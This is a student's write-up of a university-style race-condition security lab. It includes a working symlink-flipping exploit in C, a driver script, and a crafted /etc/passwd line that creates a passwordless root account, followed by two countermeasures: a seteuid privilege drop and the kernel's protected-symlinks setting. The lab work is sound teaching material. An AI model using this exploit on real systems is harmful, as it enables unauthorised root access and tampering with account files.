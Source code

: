 ```yaml
---
title: Race Condition Vulnerability Lab
author: Xinyi Li
date: \today{}
---
```


# Task 1

Fail to edit it even use root `vim`.

So first change its owner
```bash
sudo chown seed /etc/passwd
```
Then modify the file and return it to `root`
```bash
sudo chown root /etc/passwd
```
> I think the instruction can give more easy options: `sudo adduser test` then enter `U6aMy0wojraho` as its password or use GUI following [this document](https://help.ubuntu.com/stable/ubuntu-help/user-add.html.en). Anyway, **it is too dangerous to edit `/etc/passwd` directly**.

Yes, I can log in test user using just an enter press and get the root privilege.

```
[03/09/20]seed@VM:~/.../race$ su - test
Password: 
root@VM:~# whoami
root
```

write a file named `passwd_input` with the one-line content:

```
test:U6aMy0wojraho:0:0:test:/root:/bin/bash
```

# Task 2

Use `attack_process.c` to keep changing what `/tmp/XYZ` points to.

```c
#include <unistd.h>

int main()
{
    while (1)
    {
        unlink("/tmp/XYZ");
        symlink("/dev/null", "/tmp/XYZ");
        usleep(1000);

        unlink("/tmp/XYZ");
        symlink("/etc/passwd", "/tmp/XYZ");
        usleep(1000);
    }
    return 0;
}
```

Compilation:

```
gcc -o attack_process attack_process.c
```

Run `./attack_process` and start a new user shell execute `target_process.sh` (with `bash target_process.sh` command or use `chmod u+x target_process.h` before):

```sh
#!/bin/bash

CHECK_FILE="ls -l /etc/passwd"
old=$($CHECK_FILE)
new=$($CHECK_FILE)
while [ "$old" == "$new" ]
do
    ./vulp < passwd_input
    new=$($CHECK_FILE)
done
echo "STOP... The passwd file has been changed"
```

Finally, the attack works:

![Get the root shell](./attack.png)

# Task 3

Edit `vulp.c` as:

```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>

int main()
{
    char *fn = "/tmp/XYZ";
    char buffer[60];
    FILE *fp;
    uid_t real_uid = getuid();
    uid_t eff_uid = geteuid();

    /* get user input */
    scanf("%50s", buffer);

    seteuid(real_uid);

    fp = fopen(fn, "a+");
    if (fp) // Instead of checking by access(), directly check if open() returns proper pointer. **Note that it should not be compared with -1 as the textbook suggests.**
    {
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    }
    else
        printf("No permission \n");

    seteuid(eff_uid);
}
```

Note the modifications in Line 10-11, 16, 18-19 and 28.

- Before accessing the file, use `seteuid` to set the effective user ID to the real user ID, which disables its root privilege temporarily.
- After writing, use `seteuid` to set the effective user ID to its original value, which recovers its root privilege.
- Directly checking if `open()` return the file pointer instead of using `access()` to check the privilege.

Then the attack fails, the countermeasure stops the program from invoking the `open()` system call due to no root privilege.

# Task 4

When turn on the protector:

```
sudo sysctl -w fs.protected_symlinks=1
```
The `target_process` stops and gets stuck with a `Segmentation fault` error message. It cannot write anything into `/etc/passwd`.

In other words, even though it can still win the race condition, it will never follow the symbolic link created by the normal user, which leads to the crash.

Because `/tmp` is a [sticky directory](https://en.wikipedia.org/wiki/Sticky_bit) owned by `root`, with the sticky symlink protection enabled, symbolic inside the directory must be created by either the owner of the directory, or the follower (the effective UID of the process), otherwise the symbolic will not be followed. As `vulp` is a `SETUID` program, which means the follower is `root` as well, the symbolic link will not work if attacked.

